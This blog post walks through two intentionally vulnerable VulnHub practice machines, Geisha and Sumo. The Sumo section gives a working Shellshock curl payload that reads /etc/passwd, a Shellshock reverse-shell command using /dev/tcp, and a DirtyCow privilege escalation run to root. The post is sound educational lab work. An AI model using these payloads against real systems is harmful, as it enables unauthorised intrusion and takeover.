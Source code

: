 ```yaml
---
layout: post
title:  "Vulnhub: Sumo and Geisha"
date:   2021-05-04 20:00:00 +1100
category: hacking
---
```


## Sumo and Geisha
I decided to do some more of the [SunCSR Team](https://www.vulnhub.com/author/suncsr-team,696/) boxes on VulnHub because I saw someone talking them up; I had done a couple already. It wasn't easy though - although not for the reasons you might think.

#### VMWare
I used to use VMWare for my Kali but every few months it would just randomly nuke my box and I'd have to reinstall. Since I built my new PC, I only had VirtualBox and it has been *seamless*. 

But ... some of the SunCSR boxes are marked as working better with VMWare and I couldn't get them to get an IP with VirtualBox like I normally would. So, I installed VMWare ... and what a pain in the ass that turned out to be, for various reasons. 

Anyway, I did Geisha with both Kali and Geisha in VMWare, then I got Sumo to run in VirtualBox. So far I can't get BlueSky to run at all. I mean it boots okay, but I can't connect to it.

## Geisha
This will be brief. It has like 5 different HTTP ports, plus FTP (no anonymous) and SSH. While I'm enumerating the various HTTP services, I have Hydra running against FTP with a username I found on one of the pages - the *passwd* file is on the webserver. Despite having a vulnerable webapp on two on the ports, I can't find the login page - suggesting it may be a red herring. Hydra finds a password for our user, and we can use this for both FTP and SSH.

Once on, *base32* has the SUID bit (thanks *linpeas*) and we can use it to read files. I read the shadow file but can't crack the hash; so I use it to get the root SSH key and SSH in as *root*; done.

## Sumo
HTTP and SSH only. Web enumeration reveals a */cgi-bin* directory so I add *sh* and *cgi* to my extensions:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/sumo]
└─# feroxbuster -u http://192.168.1.104 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,sh,cgi

# snip
200        1l        3w        0c http://192.168.1.104/cgi-bin/test.sh
# snip
{% endhighlight %}

Smells like *shellshock*? 

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/sumo]
└─# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.1.104/cgi-bin/test.sh               3 ⨯

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
# snip
{% endhighlight %}

Yep. Shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/sumo]
└─# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.210/1234 0>&1'" http://192.168.1.104/cgi-bin/test.sh
{% endhighlight %}

This box has an old kernel, and *linux-exploit-suggester.sh* suggests **DirtyCow**. This shit never works for me, but we'll try:

{% highlight shell %}
www-data@ubuntu:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
{% endhighlight %}

HA! I've seen this before:

{% highlight shell %}
www-data@ubuntu:/dev/shm$ export PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
www-data@ubuntu:/dev/shm$ !12
!12
gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/dev/shm$
{% endhighlight %}

That's better.

{% highlight shell %}
www-data@ubuntu:/dev/shm$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: none

Complete line:
firefart:fixrfs1bF52dQ:0:0:pwned:/root:/bin/bash

mmap: 7f7d5602b000
{% endhighlight %}

It appears to have hung at this point - dammit! Let's try another login:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/sumo]
└─# ssh firefart@192.168.1.104                                                                                                    18 ⨯
The authenticity of host '192.168.1.104 (192.168.1.104)' can't be established.
ECDSA key fingerprint is SHA256:G8HZXu6SUrixt/obia/CUlTgdJK9JaFKXwulm6uUrbQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.104' (ECDSA) to the list of known hosts.
firefart@192.168.1.104's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Mon May 11 11:47:26 2020
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:~# cd /root
firefart@ubuntu:~# ls -lash
total 28K
4.0K drwx------  3 firefart root 4.0K May 13  2020 .
4.0K drwxr-xr-x 23 firefart root 4.0K May 11  2020 ..
4.0K -rw-------  1 firefart root   22 May 13  2020 .bash_history
4.0K -rw-r--r--  1 firefart root 3.1K Apr 19  2012 .bashrc
4.0K drwx------  2 firefart root 4.0K May 11  2020 .cache
4.0K -rw-r--r--  1 firefart root  140 Apr 19  2012 .profile
4.0K -rw-r--r--  1 firefart root   24 May 11  2020 root.txt
firefart@ubuntu:~# cat root.txt
{Sum0-SunCSR-2020_r001}
firefart@ubuntu:~# 
{% endhighlight %}

Well there you go, I guess it does work sometimes.
